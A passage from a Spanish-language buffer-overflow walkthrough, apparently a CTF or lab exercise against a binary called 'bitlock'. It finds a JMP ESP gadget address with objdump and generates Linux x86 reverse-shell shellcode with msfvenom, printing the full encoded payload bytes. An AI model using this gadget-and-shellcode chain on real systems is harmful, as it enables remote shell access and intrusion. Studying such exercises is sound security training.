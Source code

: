 Y ejecutamos lo siguiente:

```
jmp esp
```

Info:

```
00000000  FFE4              jmp esp
```

Esto indica que el opcode para `JMP ESP` es `FFE4`.

Ahora usaremos `objdump` para saber cual es la dirección de memoria la cual nos permite realizar el `JMP ESP`

```shell
objdump -d bitlock | grep "FF E4" -i
```

Info:

```
804948b:       ff e4                   jmp    *%esp
```

Y veremos que la direccion de memoria es `0x0804948b`.

### Generar un Shellcode (Reverse Shell)

Ahora generaremos un `shellcode` con `msfvenom` de la siguiente forma:

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\x0a\x0d' -f py
```

El flag `-b '\x00\x0a\x0d'` excluye los caracteres nulos y de salto de línea, ya que podrían interrumpir la ejecución del payload. El flag `-f py` genera el código en formato Python para facilitar su inclusión en scripts.

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xdb\xcb\xd9\x74\x24\xf4\xbf\x8e\x4f\x16\x01\x58"
buf += b"\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x78\x13\x03\xf6"
buf += b"\x5c\xf4\xf4\x37\xb8\x0f\x15\x64\x7d\xa3\xb0\x88"
buf += b"\x08\xa2\xf5\xea\xc7\xa5\x65\xab\x67\x9a\x44\xcb"
buf += b"\xc1\x9c\xaf\xa3\x11\xf6\x55\x89\xfa\x05\x56\xf3"
buf += b"\x9b\x80\xb7\xbb\x3a\xc3\x66\xe8\x71\xe0\x01\xef"
buf += b"\xbb\x67\x43\x87\x2d\x47\x17\x3f\xda\xb8\xf8\xdd"
buf += b"\x73\x4e\xe5\x73\xd7\xd9\x0b\xc3\xdc\x14\x4b"
```
